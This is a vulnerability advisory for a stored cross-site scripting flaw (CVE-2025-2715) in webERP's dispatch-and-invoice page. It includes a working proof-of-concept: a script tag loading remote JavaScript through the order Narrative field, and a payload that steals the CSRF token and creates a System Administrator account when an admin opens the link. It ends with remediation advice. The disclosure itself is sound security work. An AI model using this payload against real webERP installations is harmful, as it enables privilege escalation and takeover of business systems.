






# Cross Site Scripting in webERP

### Title: Cross Site Scripting in webERP <=v4.15.2 and 5.0.0.rc+13
### Affected Component: /ConfirmDispatch_Invoice.php
### CWE: CWE-79 (Cross Site Scripting)
### CVSS:4.0/AV:N/AC:L/AT:N/PR:L/UI:A/VC:H/VI:H/VA:N/SC:H/SI:H/SA:N
### CVE: [CVE-2025-2715](https://www.cve.org/CVERecord?id=CVE-2025-2715)
### VulDB: [VDB-300735](https://vuldb.com/?id.300735)


### Vendor homepage:
[https://github.com/timschofield/webERP](https://github.com/timschofield/webERP)

### **Summary**
A **Cross-Site Scripting (XSS)** vulnerability exists in the application, which allows a user with the **Inquiries/Order Entry** security role to inject malicious scripts through the **Narrative** field when creating an order. This XSS attack can lead to privilege escalation, allowing the attacker to create a new user with **System Administrator** privileges. The attack is triggered when a user with permissions to create new users accesses the **Confirm Dispatch and Invoice** page.

An attacker can exploit this vulnerability by sending a specially crafted URL to a system administrator. The administrator, unaware of the malicious payload, opens the link, unknowingly executing the script. This results in a new **System Administrator** user being created in the system.

The malicious payload is rendered from this script: ConfirmDispatch_Invoice.php

---

### **Details**
When creating an order, the **Narrative** field does not properly sanitize user input, allowing **HTML** and **JavaScript** code to be injected. The unsanitized input is later rendered on the **Confirm Dispatch and Invoice** page, where the injected script is executed.

In this case, the injected script loads an external payload hosted on a local Python server. This payload, when executed, sends a **POST request** to the application, creating a new **admin user** with elevated privileges.

---

### **Proof of Concept (PoC)**
To reproduce the issue, follow these steps:

1. **Set up the environment using Docker**.
2. **Create a new user** with the **Inquiries/Order Entry** security role.
3. Open a **new private browsing window** (or a different browser) to ensure you’re logged in as the new user.
4. **Create a new order**, and in the **Narrative** field, inject the following payload: `<script src=http://127.0.0.1:8081></script>`
5. Continue the order process until reaching the **Confirm Dispatch and Invoice** page.
6. Copy the **URL** from the page and send it to a System Administrator. (example: http://127.0.0.1:8899/ConfirmDispatch_Invoice.php?identifier=1740400970&OrderNumber=15)
7. Have the administrator **open the URL**. The script will execute in their browser.
8. Once the administrator has opened the URL, **check the system users**. A new user with the username **PoCUser** will have been added with **administrator privileges**.

**Note:** The payload can be modified as necessary. Ensure your local server is running on port **8081** or update the script accordingly.

**The payload from script.js**
```javascript
var xhr = new XMLHttpRequest();
xhr.open('GET', '/WWW_Users.php', false);
xhr.withCredentials = true;
xhr.send();
var doc = new DOMParser().parseFromString(xhr.responseText, 'text/html');
var csrftoken = encodeURIComponent(document.querySelector('input[name="FormID"]').value);

console.log(csrftoken);

// Create new user
var csrf_req = new XMLHttpRequest();
var params = `FormID=${csrftoken}&UserID=PoCUser&Password=admin&RealName=PoC%20XSS&Phone=&Email=poc%40exploit.com&Access=8&ID=admin&CanCreateTender=0&DefaultLocation=AN&Cust=&BranchCode=&SupplierID=&Salesman=&PageSize=A4&Theme=xenos&UserLanguage=en_US.utf8&Module_0=1&Module_1=1&Module_2=1&Module_3=1&Module_4=1&Module_5=1&Module_6=1&Module_7=1&Module_8=1&Module_9=1&Module_10=1&ShowDashboard=0&ShowPageHelp=1&ShowFieldHelp=1&PDFLanguage=0&Department=0&Blocked=0&submit=Enter+Information`;
csrf_req.open('POST', '/WWW_Users.php', false);
csrf_req.setRequestHeader('Content-type', 'application/x-www-form-urlencoded');
csrf_req.withCredentials = true;
csrf_req.send(params);
```

#### Screenshots
##### The python server hosting the payload with the incoming request


##### The order placement form with the low level user adding the payload in the Narrative field


##### The admin visits the page with the payload - not seeing the payload being executed


##### Screenshot of the FormID being logged


##### Requests to WWW_Users.php - GET request to get the FormID and POST to create the new **System administrator** user



##### User grid with the newly created admin user



### Impact
This XSS vulnerability allows an attacker to escalate their privileges and create a new System Administrator user. Once created, the attacker has full access to the backend, enabling further system manipulation, including data modification and configuration changes.


### **Remediation Recommendations**
To mitigate this Cross-Site Scripting (XSS) vulnerability and prevent unauthorized users from escalating privileges or injecting malicious payloads, we recommend the following actions:

- Sanitize and escape User Inputs
- Implement a Content Security Policy
- Use a Web Application Firewall (WAF)
- Implement Multi-Factor Authentication

A code fix could be to change `ConfirmDispatch_Invoice.php` line 473:

**From**
```php
$Narrative = str_replace('\r\n', '<br />', $LnItm->Narrative);
```

**To**
```php
$Narrative = str_replace("\r\n", '<br />', htmlspecialchars($LnItm->Narrative, ENT_QUOTES, 'UTF-8'));
```


## **Credits**
> [Jelle Janssens](https://github.com/janssensjelle)